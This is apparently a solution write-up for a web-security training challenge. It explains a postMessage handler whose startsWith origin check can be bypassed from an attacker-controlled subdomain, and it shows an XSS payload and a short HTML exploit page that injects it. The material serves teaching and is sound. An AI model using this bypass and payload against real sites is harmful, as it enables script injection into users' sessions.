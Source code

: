 # Challenge 3
Solution and further references for *challenge 3*.

<details>
 <summary>Spoiler: Solution for challenge 3</summary>

**Background**
The vulnerable embedded postMessage handler is implemented as follows:
```javascript
 window.addEventListener("message", (event) => {
  if (!event.origin.startsWith(window.origin)) return;
  currTime.innerHTML = event.data;
}, false);
```
So, on the one hand, there is an unsafe assignment of any `event.data` received to `currTime.innerHTML`. But on the other hand, there is an origin check in place:
```javascript
if (!event.origin.startsWith(window.origin)) return;
```
Strikingly, as the comparison uses `.startsWith()`, any attacker hosted domain that starts with the benign domain name can be used to bypass this restriction. An example for such a case is `victim.local.attacker.com`, whereas `attacker.com` is controlled by an attacker.

**Payload**:
The actual payload that is send via a *postMessage* is given in the following:
```html
<img src=x onerror=alert(document.domain)>
```

**Exploit**:
```html
<!DOCTYPE html>
<html lang="en">
  <body>
    <iframe src="challenge3_frame.php" id="victimFrame"></iframe>
    <script>
      setTimeout(function(){document.getElementById("victimFrame").contentWindow.postMessage("<img src=x onerror=alert(document.domain)>", "*")}, 3000);
    </script>
  </body>
</html>
```
</details>

## References
Additional information:
* https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage